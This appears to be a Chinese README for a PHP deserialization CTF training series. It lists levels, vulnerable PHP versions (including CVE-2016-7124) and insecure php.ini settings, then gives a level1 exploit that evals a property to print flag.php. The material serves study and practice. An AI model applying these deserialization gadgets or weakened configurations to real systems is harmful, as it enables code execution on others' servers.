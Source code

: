 # 一，说明

在学习反序列漏洞的道路中，最首要的就是掌握类和对象的基础知识，懂得php的基本语法。本项目关卡由易至难，建议广大萌新们全部掌握。小白技术一般，还请广大黑客朋友们见谅~~~

本着分享学习的目的，本人仅提供exp，并不提供完整的wp，绝对不是太懒的原因~~~

以下内容 或来自提取的CTF考点，或来自个人的理解与整合，均不涉及原题。如有错误，还请见谅~~

# 二，环境

## 1说明

通过PHPstudy，搭建简易wamp环境。

## 2要求

请根据表格内容自行更换及安装php版本和扩展（若无要求，自行斟酌）。

不会吧，不会吧，不会真有人配了个php<=5.0版本的然后说环境搭不起来吧。

| 关卡                                   | 不适用其他版本的原因以及相关设置                             |
| :------------------------------------- | :----------------------------------------------------------- |
| level4 create_fucntion与可变函数调用   | 5.6不支持可变函数，7.2已废除create_function                  |
| level5 序列化格式过滤与CVE-2016-7124   | CVE-2016-7124漏洞影响版本：PHP5 < 5.6.25，PHP7 < 7.0.10      |
| level6 私有属性反序列化                | escaped binary string(仅从php6开始支持)                      |
| level7 __call与属性的初始值            | 同上                                                         |
| level10 just_one_soap                  | 需要开启soap扩展(php5.6：extension=php_soap)                 |
| level11 a phar 和 level12 a phar trick | php.ini中phar.readonly=Off（若有分号则去掉）                 |
| level13 引用和session                  | session.auto_start=0;<br/>session.serialize_handler = php;（level13均为默认设置） |
| leve14 session.upload_progress         | session.auto_start=0;<br/>session.serialize_handler = php_serialize;<br>session.upload_progress.enabled = On;<br>session.upload_progress.cleanup = Off;<br>session.upload_progress.prefix = "upload_progress_";<br>session.upload_progress.name = "PHP_SESSION_UPLOAD_PROGRESS";<br>session.upload_progress.freq =  "1%";<br>session.upload_progress.min_freq = "1"; |





# 三，wp

**level1 类的实例化**

```php
<?php
class a{
    var $act;
    function action(){
        eval($this->act);
    }
}
$a=new a();
$a->act="show_source('flag.php');";
$a->action();
echo serialize($a);
?>
```
